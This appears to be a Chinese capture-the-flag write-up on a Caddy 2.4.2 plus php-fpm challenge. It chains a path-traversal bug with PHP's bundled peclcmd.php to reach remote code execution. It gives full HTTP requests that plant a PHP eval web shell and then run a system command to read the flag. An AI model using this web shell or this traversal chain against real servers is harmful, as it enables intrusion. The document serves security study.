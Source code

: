 这道题的`caddy`和`Nginx`很相似，这里什么都没给，只有一个空白页面，服务器为`caddy`，将服务都反向代理到`php fpm`上

```php
:80 {
	root * /srv
	php_fastcgi php:9000
}
```

因为什么都没给，所以首先只能对`caddy`的历史漏洞进行搜查，该版本为`2.4.2`，从`github`上可以查到，`Caddy <= 2.4.2` 在传递`script_path`给`php-fpm`的时候可以目录穿越，而这道题的另外一个考点就是 [**利用php自带文件进行RCE**](https://web.archive.org/web/20201022203937/https://khack40.info/camp-ctf-2015-trolol-web-write-up/)

> *在php官方提供的php容器中 register_argc_argv 是默认开启的，而且也默认包含peclcmd.php，于是就可以在默认php-fpm的docker和caddy<=2.4.2的环境下无条件RCE*

### payload

```http
GET /../usr/local/lib/php/peclcmd.php?+config-create+/tmp/<?=eval($_POST['cmd']);?>/*+/srv/bme.php HTTP/1.1
Host: 127.0.0.1:54120
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

```http
POST /bme.php HTTP/1.1
Host: 127.0.0.1:54120
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

cmd=system('/readflag');
```

